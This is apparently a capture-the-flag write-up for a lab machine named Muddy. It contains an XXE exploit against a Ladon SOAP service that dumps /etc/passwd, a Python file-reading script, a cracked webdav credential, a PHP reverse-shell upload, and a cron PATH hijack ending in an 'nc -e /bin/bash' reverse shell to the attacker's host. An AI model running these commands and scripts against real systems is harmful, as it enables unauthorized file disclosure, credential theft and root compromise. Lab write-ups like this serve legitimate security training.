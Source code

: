 # Muddy
### Enumeration

```
# Nmap 7.92 scan initiated Fri Apr  1 15:54:19 2022 as: nmap -v -p- -sC -sV -oN tcp.out 192.168.58.161
Nmap scan report for 192.168.58.161
Host is up (0.00025s latency).
Not shown: 65527 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
25/tcp   open  smtp          Exim smtpd
| smtp-commands: muddy Hello nmap.scanme.org [192.168.58.200], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
80/tcp   open  http          Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Did not follow redirect to http://muddy.ugc/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
443/tcp  open  https?
808/tcp  open  ccproxy-http?
908/tcp  open  unknown
8888/tcp open  http          WSGIServer 0.1 (Python 2.7.16)
|_http-server-header: WSGIServer/0.1 Python/2.7.16
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Ladon Service Catalog
MAC Address: 00:50:56:BF:5F:85 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

##### 80
When we visit the IP, we are redirected to `muddy.ugc`, which we add to our virtual hosts file.

##### 8888
There's a [Ladon](https://pypi.org/project/ladon/) (Python) webserver. According to the readme, Ladon is a framework for exposing Python methods via an RPC server.

I initially made a request to the JSON-RPC interface (as this was the one for which I knew how to write requests), and noticed that the server would echo back the value of the `uid` parameter that we pass it.

Googling/trying `searchsploit ladon` reveals that there is an XXE (XML external entity) injection vulnerability in Ladon v0.9.40. If it's possible to send SOAP messages to the service, we'll be able to read local files and forge server side requests.

```shell-session
$ curl -s -X $'POST' \
-H $'Content-Type: text/xml;charset=UTF-8' \
-H $'SOAPAction: \"http://muddy.ugc:8888/muddy/soap11/checkout\"' \
--data-binary $'<?xml version="1.0"?>
<!DOCTYPE uid
[<!ENTITY passwd SYSTEM "file:///etc/passwd">
]>
<soapenv:Envelope
xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\"
xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"
xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"
xmlns:urn=\"urn:muddy\"><soapenv:Header/>               
<soapenv:Body>                                                                    
<urn:checkout soapenv:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">
<uid xsi:type=\"xsd:string\">&passwd;</uid>         
</urn:checkout>                                          
</soapenv:Body>                                          
</soapenv:Envelope>' \                                   
'http://muddy.ugc:8888/muddy/soap11' | xmllint --format -
<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns="urn:muddy" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <SOAP-ENV:Body SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
    <ns:checkoutResponse>
      <result>Serial number: root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologinbin:x:2:2:bin:/bin:/usr/sbin/nologinsys:x:3:3:sys:/dev:/usr/sbin/nologinsync:x:4:65534:sync:/bin:/bin/syncgames:x:5:60:games:/usr/games:/usr/sbin/nologinman:x:6:12:man:/var/cache/man:/usr/sbin/nologinlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologinmail:x:8:8:mail:/var/mail:/usr/sbin/nologinnews:x:9:9:news:/var/spool/news:/usr/sbin/nologinuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologinproxy:x:13:13:proxy:/bin:/usr/sbin/nologinwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologinbackup:x:34:34:backup:/var/backups:/usr/sbin/nologinlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologinirc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologingnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologinnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin_apt:x:100:65534::/nonexistent:/usr/sbin/nologinsystemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologinsystemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologinsystemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologinmessagebus:x:104:110::/nonexistent:/usr/sbin/nologinsshd:x:105:65534::/run/sshd:/usr/sbin/nologinsystemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologinmysql:x:106:112:MySQL Server,,,:/nonexistent:/bin/falseian:x:1000:1000::/home/ian:/bin/shDebian-exim:x:107:114::/var/spool/exim4:/usr/sbin/nologin_rpc:x:108:65534::/run/rpcbind:/usr/sbin/nologinstatd:x:109:65534::/var/lib/nfs:/usr/sbin/nologin</result>
    </ns:checkoutResponse>
  </SOAP-ENV:Body>
</SOAP-ENV:Envelope>
```

We're able to get the user flag by requesting `/var/www/local.txt`.

Script to enumerate directories:

```python
import argparse
import requests
import sys
import xmltodict

def read_wordlist(wordlist_path):
    with open(wordlist_path, 'r') as f:
        return f.read().strip().split('\n')

def request_file(host, filepath, read):
    response = requests.post(
            f"http://{host}:8888/muddy/soap11",
            headers={
                'Content-Type': 'text/xml;charset=UTF-8',
                'SOAPAction': f'http://{host}:8888/muddy/soap11/checkout',
            },
            data=f'''<?xml version="1.0"?>
<!DOCTYPE uid
[<!ENTITY passwd SYSTEM "file://{filepath}">
]>
<soapenv:Envelope
xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\"
xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"
xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\" 
xmlns:urn=\"urn:muddy\"><soapenv:Header/>               
<soapenv:Body>                                                                     
<urn:checkout soapenv:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">
<uid xsi:type=\"xsd:string\">&passwd;</uid>         
</urn:checkout>                                          
</soapenv:Body>                                          
</soapenv:Envelope>'''.encode('utf-8')
    )

    if response.status_code == 200:
        if read:
            print(xmltodict.parse(response.content, process_namespaces=True)['http://schemas.xmlsoap.org/soap/envelope/:Envelope']['http://schemas.xmlsoap.org/soap/envelope/:Body']['urn:muddy:checkoutResponse']['result'].removeprefix("Serial number: "))
        else:
            print(f"found {filepath}")

def run(host, wordlist, read):
    for word in wordlist:
        request_file(host, word, read)

if __name__ == "__main__":
    parser = argparse.ArgumentParser()
    parser.add_argument("--host", required=True)
    subparsers = parser.add_subparsers()

    enum_parser = subparsers.add_parser("enum")
    enum_parser.add_argument("-w", "--wordlist", required=True)
    enum_parser.set_defaults(func=lambda args: run(args.host, read_wordlist(args.wordlist), False))

    read_parser = subparsers.add_parser("read")
    read_parser.add_argument("-f", "--file", required=True)
    read_parser.set_defaults(func=lambda args: run(args.host, [args.file], True))

    args = parser.parse_args()

    func = getattr(args, "func", None)
    if func is None:
        parser.print_help()
        sys.exit(0)

    func(args)
```

### Foothold
We use the above to retrieve the basic auth credentials for the webdav endpoint on the webserver listening on port 80. These are located at `/var/www/html/webdav/passwd.dav`. The credentials are `administrant:$apr1$GUG1OnCu$uiSLaAQojCm14lPMwISDi0`.

We can crack this with john using `john --wordlist=rockyou.txt passwd.dav`. Then we have the credentials `administrant:sleepless`.

With these credentials, we can upload a PHP reverse shell using `curl -T /usr/share/webshells/php/reverse.php -u administrant:sleepless muddy.ugc/webdav/`, then start a listener on the port specified in `reverse.php` and visit `muddy.ugc/webdav/reverse.php`.

### Privilege Escalation
We run linpeas and see that the kernel version is highly likely vulnerable to the PTRACE_TRACEME exploit. However, after compiling and running, we find that the exploit requires `pkexec`, which is not available to us.

Instead, linpeas also flags that the path in `/etc/crontab` starts with `/dev/shm` which we can write to! Better yet, there's a job that runs every minute:

```
*  *    * * *   root    netstat -tlpn > /root/status && service apache2 status >> /root/status && service mysql status
```

So we create a file called `netstat` in `/dev/shm` with the contents `ping -c 2 192.168.52.200` and make it executable, then start `tcpdump` listening for ICMP requests. When the next minute comes, we see 2 pings, so we have code execution as root. We change the contents of `netstat` to `nc -e /bin/bash 192.168.58.200 111` and when the new minute arrives, we have a root shell!